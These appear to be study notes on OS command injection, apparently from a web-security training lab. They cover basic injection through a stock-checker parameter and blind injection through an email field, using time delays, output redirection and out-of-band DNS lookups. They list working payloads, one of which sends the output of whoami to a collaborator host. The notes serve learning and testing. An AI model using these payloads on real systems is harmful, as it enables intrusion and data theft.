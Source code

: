 ## Basic

- <mark style="background: #CACFD9A6;">stock checker</mark> accesses the information via this URL:
  > `https://insecure-website.com/stockStatus?productID=381&storeID=29` 
  > -> it will call out a shell command like this : `stockreport.pl 381 29`

-  `& echo aiwefwlguh &` => `stockreport.pl & echo aiwefwlguh & 29`
-  `1|whoami` => name of the current user

# Blind

- <mark style="background: #CACFD9A6;">site feedback</mark> -> user enters email address and the feedback message -> calls out to the `mail` program: 
  > `mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com` 
- => *the output not returned in the application's response*.
## using time delays

> **`email` parameter**: `email=x||ping+-c+10+127.0.0.1||` => 10sec delay
## by redirecting output

> **`email` parameter**: `email=||whoami>/var/www/images/output.txt||` 
> **`filename` parameter**: `filename=output.txt` => response contains the output
## by using out-of-band (OAST)

- ex1:
> **`email` parameter**: `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
- ex2:
> **`email` parameter**: `email=||nslookup+$(whoami).BURP-COLLABORATOR-SUBDOMAIN||
